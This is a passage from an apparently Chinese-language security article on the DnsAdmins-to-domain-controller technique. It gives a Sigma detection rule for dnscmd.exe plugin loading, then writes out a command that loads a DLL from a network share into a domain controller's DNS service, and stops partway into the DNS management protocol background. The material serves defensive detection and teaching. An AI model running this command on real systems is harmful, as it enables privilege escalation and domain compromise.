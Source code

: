 ```bash
modified: 2021/09/12
author: Florian Roth
tags:
    - attack.defense_evasion
    - attack.t1073 # an old one
    - attack.t1574.002
    - attack.t1112
logsource:
    category: process_creation
    product: windows
detection:
    dnsadmin:
        Image|endswith: '\dnscmd.exe'
        CommandLine|contains|all: 
            - '/config'
            - '/serverlevelplugindll'
    condition: dnsadmin
falsepositives:
    - unknown
level: high
fields:
    - EventID
    - CommandLine
    - ParentCommandLine
    - Image
    - User
    - TargetObject
```

### 执行：

添加特制的 DLL 作为 DNS 服务的插件。此命令必须由至少是 DnsAdmins 组成员的用户在 DC 上运行。  
dnscmd.exe dc1.lab.int /config /serverlevelplugindll \\192.168.0.149\\dll\\wtf.dll  
用例：远程注入 dll 到 dns 服务器  
所需权限：DNS 管理员  
操作系统：Windows 服务器  
MITRE ATT&CK®：T1543.003：Windows 服务  
原文链接：[https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83)

## DNS 服务器管理协议基础知识

RPC 之上的管理协议层，出于该协议的目的，可以将其分层在 TCP 或命名管道之上。如果您对协议或其实现感兴趣，可以在域控制器中的 c:\\windows\\system32\\dns.exe 下找到它。其 RPC 接口 UUID 为 50ABC2A4–574D-40B3–9D66-EE4FD5FBA076，并使用 \\PIPE\\DNSSERVER 命名管道进行传输。  
DNS 服务器作为域控制器上的服务运行。可以通过运行 dnsmgmt.msc 并连接到 AD DNS 服务器（通常是域控制器）来访问管理界面。它允许用户配置 DNS 区域、查找、缓存、转发和日志记录等。这个“层次结构”中的几个对象是安全的——DNS 服务器对象（不是计算机帐户）、区域对象和记录。在本例中，我们对服务器对象感兴趣，其 ACL 在全新安装时应如下所示：
